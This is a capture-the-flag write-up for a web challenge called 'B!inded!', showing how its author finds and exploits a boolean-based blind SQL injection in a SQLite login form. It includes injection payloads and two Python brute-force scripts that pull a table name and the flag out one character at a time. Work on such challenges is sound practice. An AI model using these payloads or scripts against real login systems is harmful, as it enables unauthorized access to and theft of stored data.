


# B!inded! (Web Challenge)
### First, it is my first time writing writeups so it will be nice if you have negative feedback for me :)
## Description 

```
No fuzzing is needed, just get the flag, Format: EGCERT{flag}
Points : 200
```

## Enumeration 
 
once I opened the challenge I found this login page



And we have a hint in the description that tells us we don’t need to fuzz so our entry is the login page 
so i tried ```admin``` ```admin``` in the user and pass , but i got a response ```wrong password``` so now i know that we have admin username . 

i tried again with ```aboelnour``` and ```pass``` and i got a response ```user not found```

so i fired up my burp and send ```a``` in username and ```a``` in password

And I have noticed that username and password are converted to hex and separated by four zeros 
for example a = 61 in hex so our request will be like this 




From the challenge name, I got that it might be blind sqli 

so I typed ```aboelnour"``` in username and ```0``` in password , i have got an internal server error.
then I typed ```aboelnour" or 1=1 -- -``` and B00M I have got response ```Wrong Password```  , to make sure I tried ```aboelnour" or 1=0 -- -``` and got response ```User not found``` , so it is boolean based sqli 

so let's enum our sql type 

I tried ```admin" select version()-- -``` , but I got an internal server error 

so I tried ```admin"select sqlite_version()-- -``` , and the response was ```Wrong password``` , so our db is ```SQLite``` 

-----

## Extract table name  

+ First of all, we have SQL Server SUBSTRING() function , this function used to extract some characters from a string. 

### Ex :

+ substring("Aboelnour",1,1) , output will be --> A

+ substring("Aboelnour",2,1) , output will be --> b 

and so on

+ we have also SQL LIKE Operator : you can check it on "[https://www.w3schools.com/sql/sql_like.asp](https://www.w3schools.com/sql/sql_like.asp)"


So, if we have table_name = users and column_name = user, we'd enum users with a query like the below : 

```substring((select user from users where user like '%a%'),1,1) = 'a'```

operator ```like '%a%``` : will finds any values that have a on any position  

then I searched about how to extract tables from SQLitedb and found these payloads in payloadsALLTheThings on GitHub : [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version)


And I have got this query to Extract table names :

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

I have modified it to this query below to find any table have fl string in any position at values :

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_% AND like '%fl%'
```

so our final payload will be : 

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'f' -- -```

I tried it and I have got User not found so the first char not f 

So I have tried

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'F' -- -``` , i have got Wrong password so the first character is F 

but it will be hard to make it manually so I have written a python script to enum table name  

----

## Exploit code 

First, we need to convert our username to hex and concatenate it with 000061 , 61 is the password
Second, we need to bruteforce all chars with check if "Wrong" in response text that is meaning we got the right character and increase step with 1 to find the second char and so on 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
returned_text="Wrong"
table=""
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type=\'table\' and tbl_name NOT like \'sqlite_%\' and tbl_name like \'%fl%\'),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			#print(x.text)
			#print(i)
			table = table + i
			print("found more char : ", table)

print("Flag table name : " , table)
```

Afer running this script i have got table name 
```
Flag table name : Flag_jnk249
```

So now we have the table name 

before bruteforce column i have try this payload 

```
admin"select flag from Flag_jnk249-- -
```
And I got ```Wrong password``` so our column name is ```flag``` , I have avoided column bruteforcing :)

I modified my previous script to get the flag 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
flag=""
returned_text="Wrong"
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT flag from Flag_jnk249),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			#print(x.text)
			#print(i)
			flag = flag + i
			print("found more char : ", flag)

print("FLAG : " flag)
```

```
AND finnaly i have got FLAG : EGCERT{flaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag}
```

#### Linkedin : [https://www.linkedin.com/in/maboelnour12/](https://www.linkedin.com/in/maboelnour12/)
#### Facebook : [https://www.facebook.com/maboelnour12](https://www.facebook.com/maboelnour12)
